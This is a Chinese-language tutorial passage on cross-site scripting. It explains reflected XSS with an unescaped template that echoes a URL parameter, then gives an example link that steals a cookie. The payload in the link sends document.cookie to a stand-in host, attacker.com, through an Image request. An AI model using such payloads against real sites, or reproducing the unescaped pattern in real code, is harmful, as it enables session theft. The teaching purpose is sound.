 # xss(Cross Site Scripting) 跨站脚本攻击
举个栗子：  
get_param_from_url是一个从地址栏获取参数的函数
```html
<div>
  ${get_param_from_url(message)}
</div>
```
之后我们访问：`http://xxxx.com?message=hello`
此时页面会显示
```html
<div>
  hello
</div>
```

但如果我们这样访问`http://xxxx.com?message=<script>alert('hello')</script>`

如果页面没做任何处理，则会导致页面alert一个文本hello
```html
<div>
  <script>alert('hello')</script>
</div>
```

当然，以上javascript代码中只有alert一段代码，实际上它可以是任何js代码。  

这便是一段最简单的xss攻击，即反射型xss攻击。xss攻击还有其他种类，我们接下来逐个来分析。

xss（cross-site scripting跨域脚本攻击），一般分为两类：
* Reflected XSS（反射型的 XSS 攻击）
* Stored XSS（存储型的 XSS 攻击）
* DOM Based XSS

## 反射型xss攻击
这种类型的xss攻击是简单地把用户输入的数据“反射”给浏览器。此时黑客需要诱使用户“点击”一个恶意链接，才能成功。

案例一：
1. 用户登录某网站（www.myWeb.com），产生认证token，存储在cookie中，如`set cookie: sessId=183dsjfk3498djncrueiw`。
1. 存在某页面`www.myWeb.com/somePage`，它会获取地址栏中的message参数
1. 黑客通过一些途径让用户提交如下url，`www.myWeb.com/somePage?message=<script>var+i=new+Image;i.src="http://attacker.com/"%2bdocument.cookie</script>`
1. somePage页面通过提取message执行了里面的script代码，也想攻击者的网站attacker.com发起请求，并将cookie带了过去
1. 攻击者拿到了cookie，可以伪造用户发起恶意请求了。

整个过程如图所示  